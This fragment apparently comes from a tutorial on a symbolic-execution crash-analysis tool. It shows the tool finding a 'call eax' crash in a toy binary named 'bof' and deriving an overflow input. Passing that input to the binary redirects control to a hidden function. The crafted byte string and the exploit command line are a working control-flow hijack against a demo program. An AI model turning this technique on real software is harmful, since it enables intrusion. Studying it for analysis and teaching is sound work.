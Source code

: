 This script is run with:

```shell
$ python crash_analysis.py ./bof  -- AAAAAAAAAAAAAAAAAAAAAAA -- +++++++++++++++++++++++ 
Starting concrete execution
Crash found at 0x80488d5
Instruction: call eax
5955 instructions are recorded
Starting symbolic execution
State diverge at 0x8048944
[..]
The solution is:
\x41\x01\x01\x01\x7c\x88\x04\x08\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01
```

Now, if we use this solution as the input of the original program, it triggers the targeted function:

```
$ ./bof $(python -c 'print "\x41\x01\x01\x01\x7c\x88\x04\x08\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01 "')
Call me
```

